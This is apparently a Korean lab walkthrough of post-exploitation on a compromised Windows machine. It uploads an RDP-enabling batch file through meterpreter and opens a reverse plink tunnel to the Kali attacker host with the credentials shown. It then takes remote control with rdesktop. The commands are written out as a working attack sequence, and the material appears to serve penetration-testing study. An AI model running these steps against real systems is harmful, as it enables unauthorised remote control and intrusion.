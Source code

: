 <br>

rdp_enable.bat 파일을 칼리로 옮겨준다.

그런 후 윈도우로 파일을 업로드 시켜주도록 한다..

> 칼리(meterpreter)에서 진행한다.

```console
meterpreter> upload /root/Desktop/rdp_enable.bat c:\\windows\\temp
```

<br>

### RDP 스크립트 실행

윈도우의 쉘을 얻고 rdp_enable.bat 을 실행시킨다.

> 칼리(shell)에서 진행한다.

```console
C:\WINDOWS\Temp> rdp_enable.bat
```

![1](https://user-images.githubusercontent.com/59737252/174470327-50f7d4c7-95c0-4a82-94fb-6a4d7cffd55e.png)

<br>

정상적으로 실행이 되었다면, netstat -an으로 결과를 확인하여 3389포트가 활성화 되었는지 확인한다.

> 칼리(shell)에서 진행한다.

```console
C:\WINDOWS\Temp> netstat -an
```

![2](https://user-images.githubusercontent.com/59737252/174470419-78686772-b0f9-442b-a4c1-b1c85437bcee.png)

<br>

### plink (3389포트)

다음으로 plink를 통해 3389번으로 터널링을 진행해준다.

만약 네트워크 오류가 났다면 칼리에서 <span style="background-color: #fff5b1">service ssh start</span>를 통해 ssh 서비스를 실행시켜준다.

<br>

> 칼리(shell)에서 진행한다.

```console
C:\WINDOWS\Temp> plink -R 3389:192.168.56.10:3389 -l root -pw lab 192.168.57.10
```

실행 후 칼리에서 포트가 열려있는지 확인한다.

<span style="background-color: #fff5b1">lsof -i:3389</span> 또는 <span style="background-color: #fff5b1">netstat -atunp &#124; grep 3389</span> 으로 확인한다.

![3](https://user-images.githubusercontent.com/59737252/174470590-b5ef9d9b-5f5e-476d-86bb-c15152270665.png)

<br>

### RDP 실행

칼리에서 rdesktop을 통해 원격 제어를 시도하여 본다.

```console
kali# rdesktop -u hacker007 -p dani localhost
```

잘 실행 되었다면, 윈도우의 원격 모니터가 뜰 것이다.

![4](https://user-images.githubusercontent.com/59737252/174470754-50ac335d-28bb-4bda-b884-c6e995bf30ce.png){: width="50%"}
